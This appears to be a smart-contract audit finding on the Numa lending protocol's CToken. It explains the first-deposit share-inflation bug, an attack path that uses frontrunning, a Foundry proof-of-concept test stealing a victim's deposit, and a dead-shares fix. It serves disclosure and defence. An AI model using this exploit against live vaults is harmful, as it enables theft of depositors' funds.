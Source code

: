 Cool Daffodil Cormorant

High

# First Deposit Issue

### Summary

The CToken is a yield bearing asset which is minted when any user deposits some units of
`underlying` tokens. The amount of CTokens minted to a user is calculated based upon
the amount of `underlying` tokens user is depositing.

As per the implementation of CToken contract, there exists two cases for CToken amount calculation:

1. First deposit - when `CToken.totalSupply()` is `0`.
2. All subsequent deposits.

```solidity
function exchangeRateStoredInternal() internal view virtual returns (uint) {
    uint _totalSupply = totalSupply;
    if (_totalSupply == 0) {
      return initialExchangeRateMantissa;
    } else {
      uint totalCash = getCashPrior();
      uint cashPlusBorrowsMinusReserves = totalCash +
        totalBorrows -
        totalReserves;
      uint exchangeRate = (cashPlusBorrowsMinusReserves * expScale) /
        _totalSupply;

      return exchangeRate;
    }
}

function mintFresh(address minter, uint mintAmount) internal {
    // ...
    Exp memory exchangeRate = Exp({mantissa: exchangeRateStoredInternal()});

    uint actualMintAmount = doTransferIn(minter, mintAmount);

    uint mintTokens = div_(actualMintAmount, exchangeRate);

    totalSupply = totalSupply + mintTokens;
    accountTokens[minter] = accountTokens[minter] + mintTokens;
}
```

[exchangeRateStoredInternal](https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CToken.sol#L379)

[mintFresh](https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CToken.sol#L538-L559)

### Root Cause

The above implementation contains a critical bug which can be exploited to steal funds of
initial depositors of a freshly deployed CToken contract.

As the exchange rate is dependent upon the ratio of CToken's totalSupply and underlying token
balance of CToken contract, the attacker can craft transactions to manipulate the exchange rate.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Once the CToken has been deployed and added to the lending protocol, the attacker mints the
   smallest possible amount of CTokens.

2. Then the attacker does a plain `underlying` token transfer to the CToken contract, artificially inflating the `underlying.balanceOf(CToken)` value.

   Due to the above steps, during the next legitimate user deposit, the `mintTokens` value for the user will become less than `1` and essentially be rounded down to `0` by Solidity.  Hence the user gets `0` CTokens against his deposit and the CToken's entire supply is held by the Attacker.

3. The Attacker can then simply `redeem` his CToken balance for the entire `underlying` token balance of the CToken contract.

The same steps can be performed again to steal the next user's deposit.

It should be noted that the attack can happen in two ways:

* The attacker can simply execute Step 1 and 2 as soon as the CToken gets added to the lending protocol.
* The attacker watches the pending transactions of the network and frontruns the user's deposit transaction by executing Step 1 and 2 and then backruns it with Step 3.

### Impact

A sophisticated attack can impact all user deposits until the lending protocols owners and users are notified and contracts are paused. Since this attack is a replicable attack, it can be performed continuously to steal the deposits of all depositors that try to deposit into the CToken contract.

The loss amount will be the sum of all deposits done by users into the CToken multiplied by the underlying token's price.

Suppose there are `10` users and each of them tries to deposit `1,000,000` underlying tokens into the CToken contract. Price of underlying token is `$1`.

`Total loss (in $) = $10,000,000`


### PoC

add this test to `Lending.t.sol`

```solidity
 function test_exploit_first_mint_issue() public {
        address attacker = userA;
        address legitimateUser = userB;

        deal(address(numa), attacker, 2_000_000e18);
        deal(address(numa), legitimateUser, 1_000_000e18);

        assertEq(cNuma.exchangeRateStored(), 2e26);
        assertEq(cNuma.totalSupply(), 0);
        assertEq(cNuma.balanceOf(attacker), 0);

        vm.startPrank(attacker);
        numa.approve(address(cNuma), type(uint256).max);
        vm.startPrank(attacker);
        cNuma.mint(2e8);

        assertEq(cNuma.balanceOf(attacker), 1);
        assertEq(cNuma.totalSupply(), 1);

        vm.startPrank(legitimateUser);
        numa.approve(address(cNuma), type(uint256).max);

        vm.startPrank(attacker);
        numa.transfer(address(cNuma), 1_000_000e18);

        assertEq(cNuma.getCash(), 1_000_000e18 + 2e8);

        vm.startPrank(legitimateUser);
        cNuma.mint(1_000_000e18);

        assertEq(cNuma.balanceOf(legitimateUser), 0);
        assertEq(cNuma.totalSupply(), 1);

        vm.startPrank(attacker);
        cNuma.redeem(1);

        assertEq(numa.balanceOf(attacker), 3_000_000e18);
        assertEq(cNuma.totalSupply(), 0);
    }
```

### Mitigation

The fix to prevent this issue would be to enforce a minimum deposit that cannot be withdrawn. This can be done by minting a small amount of CToken units to `0x00` address on the first deposit.

```solidity
function mintFresh(address minter, uint mintAmount) internal {
    // ...
    Exp memory exchangeRate = Exp({mantissa: exchangeRateStoredInternal()});

    uint actualMintAmount = doTransferIn(minter, mintAmount);

    uint mintTokens = div_(actualMintAmount, exchangeRate);

    ///  FIX
    if (totalSupply == 0) {
        totalSupply = 1000;
        accountTokens[address(0)] = 1000;
        mintTokens -= 1000;
    }

    totalSupply = totalSupply + mintTokens;
    accountTokens[minter] = accountTokens[minter] + mintTokens;
    // ...
}
```
